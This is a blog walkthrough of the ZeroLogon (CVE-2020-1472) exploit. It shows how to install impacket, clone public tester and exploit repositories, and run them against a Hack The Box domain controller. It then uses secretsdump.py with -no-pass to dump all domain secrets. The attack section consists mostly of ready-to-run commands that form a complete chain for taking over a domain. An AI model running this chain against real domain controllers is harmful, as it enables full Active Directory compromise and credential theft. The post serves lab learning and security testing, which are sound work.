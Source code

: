 ```yaml
---
layout: single
title: "CVE-2020-1472 - ZeroLogon"
date: 2020-09-18 08:49:23 +0100
categories: windows
excerpt: Simple Walkthrough of using the ZeroLogon exploit
---
```


## Overview

The attack described here takes advantage of flaws in a cryptographic authentication protocol that proves the authenticity and identity of a domain-joined computer to the DC. Due to incorrect use of an AES mode of operation it is possible to spoof the identity of any computer account (including that of the DC itself) and set an empty password for that account in the domain. (Secura)

## WhitePaper

[**Found Here**](https://www.secura.com/pathtoimg.php?id=2055)

## Installation

Firstly, you need the latest version of impacket from [here](https://github.com/SecureAuthCorp/impacket)

{% highlight powershell linenos %}
git clone https://github.com/SecureAuthCorp/impacket.git
{% endhighlight %}

![](/images/hackthebox-writeups/zerologon/clone.png)

Then cd into the folder and execute

{% highlight powershell linenos %}
pip3 install .
{% endhighlight %}

![](/images/hackthebox-writeups/zerologon/install-impacket.png)

## Testing if a DC is vulnerable

Spoiler, they probably are.

First, clone the following [repo](https://github.com/SecuraBV/CVE-2020-1472) and install the requirements

{% highlight powershell linenos %}
git clone https://github.com/SecuraBV/CVE-2020-1472.git
{% endhighlight %}

![](/images/hackthebox-writeups/zerologon/tester.png)

{% highlight powershell linenos %}
cd CVE-2020-1472
pip3 install -r requirements.txt
{% endhighlight %}

![](/images/hackthebox-writeups/zerologon/tester-setup.png)

### Running the Check Script

Now that we have the testing script installed, we can check a host to see if they are vulnerable, I will be running this against the [Multimaster machine](https://www.hackthebox.eu/home/machines/profile/232) from Hack The Box.

The command is as follows:
{% highlight powershell linenos %}
python zerologon_tester.py <DC netbios name> <DC-IP>
{% endhighlight %}

![](/images/hackthebox-writeups/zerologon/compromised-tester.png)

Bingo! We can see that the host is vulnerable!

## Exploiting a Domain Controller

### Risks

If you are doing this in a working production environment then you need to make sure you have the hash of the Domain Controller Machine Account as this wil be needed to reset the host after you have exploited it, otherwise it will no longer be able to communicate with other DC's.

### Getting the POC

To get the exploit, clone this [git repo](https://github.com/dirkjanm/CVE-2020-1472) and make sure you have impacket installed

{% highlight powershell linenos %}
git clone https://github.com/dirkjanm/CVE-2020-1472.git
{% endhighlight %}

![](/images/hackthebox-writeups/zerologon/exploit.png)

Now we can run the exploit against our vulnerable target machine

{% highlight powershell linenos %}
python cve-2020-1472-exploit.py <NETBIOS NAME> <DC-IP>
{% endhighlight %}

![](/images/hackthebox-writeups/zerologon/exploit-1.png)

If all was sucessfull you will get a `Result: 0`

### Dumping Domain Secrets with secretsdump.py

Now we have set the machine password to an empty string, "", we can now DCSync with secretsdump.py to get all the domain secrets.

{% highlight powershell linenos %}
secretsdump.py -just-dc -no-pass DCHOSTNAME$@DC-IP
{% endhighlight %}

![](/images/hackthebox-writeups/zerologon/exploit-2.png)

And just like that I've owned your whole AD Environment, in less that two minutes.

## Respect

If you enjoyed the write up or found it useful consider + repping my htb profile linked below:

[![HTB](http://www.hackthebox.eu/badge/image/210952.png)](https://www.hackthebox.eu/home/users/profile/210952)
